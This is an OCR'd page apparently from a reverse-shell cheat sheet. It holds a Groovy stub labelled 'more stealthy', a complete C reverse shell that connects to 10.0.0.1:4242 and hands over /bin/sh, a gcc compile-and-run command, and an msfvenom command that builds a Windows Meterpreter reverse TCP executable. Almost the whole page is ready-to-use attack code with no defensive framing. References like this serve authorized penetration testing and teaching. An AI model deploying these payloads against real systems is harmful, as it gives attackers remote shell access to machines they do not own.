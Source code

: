 #### Groovy Alternative 1

*NOTE*: This is more stealthy

```
  Thread.start {
      // Reverse shell here
  }
```

### C

Compile with `gcc /tmp/shell.c --output csh && csh`

```
  #include <stdio.h>
  #include <sys/socket.h>
  #include <sys/types.h>
  #include <stdlib.h>
  #include <unistd.h>
  #include <netinet/in.h>
  #include <arpa/inet.h>

  int main(void){
      int port = 4242;
      struct sockaddr_in revsockaddr;

      int sockt = socket(AF_INET, SOCK_STREAM, 0);
      revsockaddr.sin_family = AF_INET;
      revsockaddr.sin_port = htons(port);
      revsockaddr.sin_addr.s_addr = inet_addr("10.0.0.1");

      connect(sockt, (struct sockaddr *) &revsockaddr,
      sizeof(revsockaddr));
      dup2(sockt, 0);
      dup2(sockt, 1);
      dup2(sockt, 2);

      char * const argv[] = {"/bin/sh", NULL};
      execve("/bin/sh", argv, NULL);

      return 0;
  }
```

## Meterpreter Shell

### Windows Staged reverse TCP

```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```
